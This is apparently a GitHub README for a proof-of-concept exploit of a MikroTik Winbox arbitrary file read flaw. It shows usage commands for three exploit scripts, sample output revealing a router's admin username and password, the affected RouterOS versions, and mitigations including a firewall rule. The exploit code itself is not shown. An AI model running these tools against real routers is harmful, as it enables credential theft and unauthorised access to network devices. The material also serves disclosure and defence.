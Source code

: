 # WinboxExploit
Proof of Concept of Winbox Critical Vulnerability  
Arbitrary file read

# Blogpost
https://n0p.me/winbox-bug-dissection/


## How to use

Note that this script will NOT run with Python2.x. Use only Python 3+

Winbox (TCP/IP)
```
$ python3 WinboxExploit.py 172.17.17.17

User: admin
Pass: Th3P4ssWord

```  

MAC server Winbox (Layer 2)  
You can extract files even if the device doesn't have an IP address :-)
```
$ python3 MACServerDiscover.py
Looking for Mikrotik devices (MAC servers)

    aa:bb:cc:dd:ee:ff 

    aa:bb:cc:dd:ee:aa

```
```
$ python3 MACServerExploit.py aa:bb:cc:dd:ee:ff

User: admin
Pass: Th3P4ssWord

```
## Vulnerable versions
all versions from 6.29 (release date: 2015/28/05) to 6.42 (release date 2018/04/20) are vulnerable ..

## Mitigation Techniques
- Update your RouterOS to the last version or Bugfix version 
- Do not use Winbox and disable it :| it's nothing just a GUI for NooBs ..
- you may use some Filter Rules (ACL) to deny anonymous accesses to the Router 
```
ip firewall filter add chain=input in-interface=wan protocol=tcp dst-port=8291 action=drop
```

## Copyright
 - Sponsered by Iran's CERTCC(https://certcc.ir). All rights resereved.
